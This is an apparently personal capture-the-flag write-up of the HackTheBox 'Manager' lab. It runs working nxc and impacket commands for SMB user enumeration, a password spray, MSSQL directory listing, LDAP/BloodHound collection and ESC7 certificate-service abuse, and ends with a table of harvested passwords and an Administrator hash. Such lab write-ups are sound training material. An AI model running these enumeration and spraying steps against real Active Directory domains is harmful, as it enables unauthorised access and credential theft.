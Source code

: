```yaml
---
title: HackTheBox - Manager
date: 2025-07-08 02:30:00 +/-TTTT
categories: [boxes, red-teaming]
tags: [ESC7]     # TAG names should always be lowercase
image : /assets/images/5ca8f0c721a9eca6f1aeb9ff4b4bac60.webp
---
```


## Entry

Lets start with nxc and create our /etc/hosts file first.

```bash
➜  manager nxc smb 10.10.11.236
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
➜  manager sudo nxc smb 10.10.11.236 --generate-hosts-file /etc/hosts
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
➜  manager cat /etc/hosts
[SNIP]
10.10.11.236     DC01.manager.htb manager.htb DC01
```

and lets just run nmap scan and lets see if some different port is open

```bash
53/tcp   open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Manager
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-07-08 07:56:44Z)
135/tcp  open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 127
464/tcp  open  kpasswd5?     syn-ack ttl 127
593/tcp  open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
1433/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
```

okey **80** and **1433** ports are open those are interesting lets check smb shares if we have Guest access otherwise i will check website

### Enum SMB

![alt text](../assets/images/manager1.png)

okey we can extract usernames etc here but we dont have access on `shares` yet.

```bash
nxc smb DC01.manager.htb -u 'Guest' -p '' --rid-brute
➜  manager vim ridusers.txt
➜  manager cat ridusers.txt | grep -i "SidTypeUser" | awk '{print $6}' | cut -d '\' -f2 > users.txt 
➜  manager cat users.txt 
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
```

and lets try if someones using his password as his usernames.

![alt text](../assets/images/manager2.png)

okey its happening me before so i decided to create usernames with uppercase and lowercase together.

```bash
➜  manager lookupsid.py Guest@manager.htb -no-pass | grep SidTypeUser | cut -d' ' -f2 | cut -d'\' -f2 | tr '[:upper:]' '[:lower:]' | tee users
/usr/local/bin/lookupsid.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('impacket==0.13.0.dev0+20250523.184829.f2f2b367', 'lookupsid.py')
administrator
guest
krbtgt
dc01$
zhong
cheng
ryan
raven
jinwoo
chinhae
operator
```

okey now lets try again.

```bash
➜  manager nxc smb DC01.manager.htb -u users -p users --no-bruteforce --continue-on-success 
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\administrator:administrator STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\dc01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\ryan:ryan STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\raven:raven STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\jinwoo:jinwoo STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\chinhae:chinhae STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [+] manager.htb\operator:operator 
```

nice we got it. lets check if we have mssql access.

### mssql

![alt text](../assets/images/manager3.png)

okey lets check we have only `Guest` access but i remember we have webserve at port **80** and lets see if we can read some files with `xp_dirtree`

![alt text](../assets/images/manager4.png)

we can download it directly. 

```bash
➜  manager cp /home/elliot/Downloads/website-backup-27-07-23-old.zip .
➜  manager unzip website-backup-27-07-23-old.zip 
Archive:  website-backup-27-07-23-old.zip
  inflating: .old-conf.xml
```

.old-conf.xml okey its fucking suspicious.

```bash
➜  manager cat .old-conf.xml 
<?xml version="1.0" encoding="UTF-8"?>
<ldap-conf xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
   <server>
      <host>dc01.manager.htb</host>
      <open-port enabled="true">389</open-port>
      <secure-port enabled="false">0</secure-port>
      <search-base>dc=manager,dc=htb</search-base>
      <server-type>microsoft</server-type>
      <access-user>
         <user>raven@manager.htb</user>
         <password>R4v3nBe5tD3veloP3r!123</password>
```

we got the password lets do password pray

```bash
➜  manager nxc smb DC01.manager.htb -u users -p 'R4v3nBe5tD3veloP3r!123' --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
[SNIP]
SMB         10.10.11.236    445    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
```

its only work for Raven. Let see.

```bash
➜  manager nxc winrm DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
WINRM       10.10.11.236    5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
WINRM       10.10.11.236    5985   DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 (Pwn3d!)
```

we can read user.txt tho

```bash
➜  manager nxc ldap DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' --bloodhound --dns-server 10.10.11.236 --collection All
LDAP        10.10.11.236    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
LDAP        10.10.11.236    389    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
LDAP        10.10.11.236    389    DC01             Resolved collection methods: rdp, dcom, trusts, container, session, acl, psremote, localadmin, group, objectprops                                                                                                                                                     
LDAP        10.10.11.236    389    DC01             Done in 00M 19S
LDAP        10.10.11.236    389    DC01             Compressing output into /home/elliot/.nxc/logs/DC01_10.10.11.236_2025-07-07_211920_bloodhound.zip
```

we also have **LDAP** access i dumped BH data.

![alt text](../assets/images/manager5.png)

but nothing interesting so lets check **ADCS**

## ESC7

```bash
➜  manager nxc ldap DC01.manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123' -M adcs
LDAP        10.10.11.236    389    DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:manager.htb)
LDAP        10.10.11.236    389    DC01             [+] manager.htb\raven:R4v3nBe5tD3veloP3r!123 
ADCS        10.10.11.236    389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.236    389    DC01             Found PKI Enrollment Server: dc01.manager.htb
ADCS        10.10.11.236    389    DC01             Found CN: manager-DC01-CA

```

okey thats seems like way let me use my own tool 

https://github.com/lineeralgebra/autoadcspwner

it will detect and pwn auto.

```bash
➜  manager git clone https://github.com/lineeralgebra/autoadcspwner
Cloning into 'autoadcspwner'...
remote: Enumerating objects: 81, done.
remote: Counting objects: 100% (81/81), done.
remote: Compressing objects: 100% (74/74), done.
remote: Total 81 (delta 30), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (81/81), 2.41 MiB | 479.00 KiB/s, done.
Resolving deltas: 100% (30/30), done.
➜  manager cd autoadcspwner
```

and boommm

![alt text](../assets/images/manager6.png)

and BAMMM

![alt text](../assets/images/manager7.png)

## Creds

| username | password / hash | work at | from | privileges |
| --- | --- | --- | --- | --- |
| operator | operator | mssql | password spray | mssql xp_dirtree |
| raven | R4v3nBe5tD3veloP3r!123 | LDAP | .old-conf.xml  | ESC7 |
| Administrator | ae5064c2f62317332c88629e025924ef | everywhere | ESC7 | DA |

## Tools

https://github.com/lineeralgebra/autoadcspwner
